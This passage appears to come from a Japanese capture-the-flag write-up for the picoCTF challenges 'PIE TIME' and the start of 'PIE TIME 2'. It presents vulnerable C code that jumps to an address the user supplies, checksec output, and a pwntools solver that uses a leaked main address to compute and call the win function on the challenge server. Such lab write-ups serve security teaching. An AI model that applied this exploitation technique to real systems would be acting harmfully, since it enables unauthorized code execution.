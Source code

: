 ```c
  scanf("%lx", &val);
  printf("Your input: %lx\n", val);

  void (*foo)(void) = (void (*)())val;
  foo();
}
```
```
    Arch:       amd64-64-little
    RELRO:      Full RELRO
    Stack:      Canary found
    NX:         NX enabled
    PIE:        PIE enabled
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

プログラムの処理及びchecksecの結果から、win関数の先頭アドレスを入力として渡すことが出来れば良さそうです。さらにはmainのアドレスがリークしているので、リークした値から相対アドレスを引けばバイナリのベースが得られ、winの関数アドレスが計算できます。これらを考慮してsolverを書きます。

```python
from pwn import *

file = './vuln'
elf = context.binary = ELF(file)

p = remote("rescued-float.picoctf.net", 53964)
p.recvuntil(b'main: ')
leak_main = int(p.recvuntil('\n'), 16)
elf.address = leak_main - elf.sym['main']
p.sendline(hex(elf.sym['win']))
print(p.recvall().decode())
```

# PIE TIME 2
```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void segfault_handler() {
  printf("Segfault Occurred, incorrect address.\n");
  exit(0);
}

void call_functions() {
  char buffer[64];
  printf("Enter your name:");
  fgets(buffer, 64, stdin);
  printf(buffer);

  unsigned long val;
  printf(" enter the address to jump to, ex => 0x12345: ");
  scanf("%lx", &val);

  void (*foo)(void) = (void (*)())val;
  foo();
}

int win() {
  FILE *fptr;
  char c;
```